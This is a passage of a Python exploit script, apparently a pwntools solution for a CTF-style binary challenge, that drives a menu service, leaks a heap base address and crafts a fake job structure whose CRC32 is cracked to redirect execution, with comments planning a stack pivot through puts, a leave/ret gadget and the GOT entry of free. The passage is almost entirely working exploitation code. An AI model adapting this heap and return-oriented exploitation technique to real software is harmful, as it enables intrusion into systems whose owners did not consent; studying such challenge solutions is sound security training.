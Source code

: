 ```python
		return u32(addr_str[:4])
	else:
		return u32(addr_str + "\x00" * (4 - len(addr_str)))

def request_crc32_comp(data):
	sh.send("1\n")
	sh.recvuntil("Size: ")
	sh.send(str(len(data)) + "\n")
	sh.recvuntil("Contents:\n")
	sh.send(data)
	sh.recvuntil("> ")

def add_worker():
	global heap_base_addr
	sh.send("2\n")
	sh.recvuntil("Starting Worker #")
	worker_addr = sh.recvuntil("> ")
	worker_addr = int(worker_addr[:8], 16)
	if (worker_addr & 0xfff) == WORKER1_SIGN:
		heap_base_addr = worker_addr - WORKER1_ADDR

def yield_worker():
	sh.send("3\n")
	print sh.recvuntil("> ")

def toggle_worker(worker_id):
	sh.send("4\n")
	sh.recvuntil("Worker ID: #")
	sh.send(hex(worker_id)[2:] + "\n")
	print sh.recvuntil("> ")

def gather_results():
	sh.send("5\n")
	print sh.recvuntil("> ")


# struct job {
#   unsigned int id;
#   unsigned int len = 4;
#   unsigned char *input = +0x10;
#   unsigned int *result = &ebp of main context = heap + 0x34;
# bytes:
#   need to be crc32 to address of 2nd job chunk
def make_job1_payload(chunk_addr, displacement):
	job_id = p32(0) #id, not useful
	length = p32(4) #going to calculate 4 bytes
	result = p32(MAIN_EBP_ADDR + heap_base_addr)
	ret = job_id + length + p32(chunk_addr+16) + result + \
		(crack_crc32(JOB2_CONTENT_ADDR + heap_base_addr + displacement))
	ret += "\x90" * (CHUNK_SIZE - len(ret))
	assert (len(ret) == CHUNK_SIZE)
	return ret


# 2nd job content addr: 0x805b900
# 2nd job chunk size 0x100 = 128
# +0x00:
#   +0x10 ebp
#   0x8048520 puts addr
#   0x8048618 leave/ret addr
#   0x804A5E8 got addr of free
# +0x10:
#   +0x24 ebp
```